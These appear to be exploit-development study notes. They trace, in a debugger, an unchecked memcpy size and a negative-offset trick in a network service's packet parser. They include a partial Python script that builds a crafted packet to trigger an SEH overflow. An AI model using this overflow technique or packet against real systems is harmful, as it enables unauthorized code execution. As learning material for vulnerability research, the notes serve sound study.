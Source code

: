 6. `? RETURN_ADDR - DESTINATION_BUFFER` to find the difference between these two locations, in this case 0x0000c36c  
- This means we need to copy at least 0xc36c bytes to get overwrite a return address and get EIP control. However, the previous checks on the size segments only allow values of 0x61a8 or less before being passed to memcpy...  
  
BUT WAIT!  
  
**Programming Conditional Error:**  
- Remember how the check for the 3rd buffer size reused the address from the 1st buffer's size check? This seems like an error... The memcpy for for the 3rd buffer uses the expected value of `ecx+14h` (2nd used `ecx+0Ch` and 1st uses `ecx+04h`) but this value was never actually checked for potential overflow beforehand
1. Step through until the memcpy for the 3rd buffer.  
2. Do the preceding steps to  check for buffer overflow conditions here.  
3. `? 0d51fe9c - 0d50d980` in this case yields a difference of 0x0001251c, which is MASSIVE.  
- This is a problem because a previous check on maximum packet size was 0x4400 bytes. We could potentially fragment the packet... OR we can misuse the offset by inputting a negative value so it will copy this memory from preceding stack space (so long as it is memory allocated to the process).  
  
### Getting EIP Control  
  
Because this buffer is so large and we are overwriting a lot of stack space on top of where the return address is located, we are likely to cause some other memory error before our manipulated byte is read by the return instruction.  
As a result, we can intentionally cause an access violation and send and even larger buffer to take advantage of an SEH overflow.  
[[Exploiting SEH Overflows]]
  
Python script edits for SEH Overflow:  
```  
import socket  
import sys  
from struct import pack  
  
# Checksum  
buf = pack(">i", 0x2330)  
# psAgentCommand  
buf += bytearray([0x41]*0x10)  
buf += pack("<i", 0x0)     # 1st memcpy: offset  
buf += pack("<i", 0x1000)  # 1st memcpy: size field  
buf += pack("<i", 0x0)     # 2nd memcpy: offset  
buf += pack("<i", 0x1000)  # 2nd memcpy: size field  
buf += pack("<i", -0x11000)  # 3rd memcpy: offset  
buf += pack("<i", 0x13000) # 3rd memcpy: size field  
buf += bytearray([0x41]*0x8)  
  
# psCommandBuffer  
buf += bytearray([0x45]*0x100) # 1st buffer  
buf += bytearray([0x45]*0x200) # 2nd buffer  
buf += bytearray([0x45]*0x2000) # 3rd buffer  
...  
```  
- There is only 0x2300 bytes of data written into psCommandBuffer  
- The first 2 memcpys write the first 0x1000 bytes of psCommandBuffer to stack twice over, causing no issues.  
- The third memcpy writes the preceding -0x11000 bytes and the first 0x2000 of psCommandBuffer to stack, causing the overflow.  
  